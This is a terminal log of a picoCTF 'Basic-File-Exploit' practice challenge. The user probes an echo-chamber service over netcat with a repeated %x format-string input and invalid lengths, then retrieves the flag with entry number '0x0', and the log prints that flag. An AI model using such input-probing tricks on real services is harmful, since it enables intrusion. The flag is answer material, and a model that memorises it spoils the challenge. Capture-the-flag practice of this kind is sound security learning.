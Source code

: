 tropic@vulcan:~/projects/RE-writeups/Basic-File-Exploit-Medium$ nc saturn.picoctf.net 52463
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Please enter the length of your data:
Please put in a valid length
Please enter the length of your data:
No data given.
Please put in a valid length
Please enter the length of your data:
a
a
Please put in a valid length
Please enter the length of your data:
b
b
Please put in a valid length
Please enter the length of your data:
c
c
Please put in a valid length
Please enter the length of your data:
d
d
Please put in a valid length
Please enter the length of your data:
0
0
Please put in a valid length
Please enter the length of your data:
1
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
%
Read successful, would you like to do anything else?
1
1
Please enter your data:
4
4
Please enter the length of your data:
3
3
Your entry number is: 2
Write successful, would you like to do anything else?
4
4
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
%x%x%x
%x%x%x
Please put in a valid number
Please put in a valid number
Please put in a valid number
No data given.
Please put in a valid number
2 
2
Please enter the entry number of your data:
0x0
0x0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}